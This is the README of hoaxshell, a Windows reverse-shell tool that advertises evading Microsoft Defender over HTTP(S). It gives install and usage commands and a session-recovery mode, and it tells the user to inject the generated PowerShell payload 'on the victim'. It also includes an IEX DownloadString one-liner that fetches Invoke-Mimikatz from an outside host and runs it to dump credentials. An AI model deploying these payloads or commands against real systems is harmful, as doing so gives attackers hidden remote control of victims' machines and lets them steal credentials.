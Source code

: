 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and possibly other AV solutions as it is solely based on http(s) traffic. The tool is easy to use, it generates it's own PowerShell payload and it supports encryption (ssl).  
  
So far, it has been tested on fully updated **Windows 11 Enterprise** and **Windows 10 Pro** boxes (see video and screenshots).
  
### Video Presentation  
https://www.youtube.com/watch?v=SEufgD5UxdU

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/screenshots/hoaxshell-win11.png)
  
Find more screenshots [here](screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
#### Basic shell session over http
```
sudo python3 hoaxshell.py -s <your_ip>
```  
When you run hoaxshell, it will generate its own PowerShell payload for you to copy and inject on the victim. By default, the payload is base64 encoded for convenience. If you need the payload raw, execute the "rawpayload" prompt command or start hoaxshell with the `-r` argument. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
The generated PowerShell payload will be longer in length because of an additional block of code that disables the ssl certificate validation.

#### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
> cmd.exe
```  

So, if you for example would like to run mimikatz throught hoaxshell you would need to invoke the commands:
```
hoaxshell > IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.

## Future
I am currently working on some auxiliary-type prompt commands to automate parts of host enumeration.
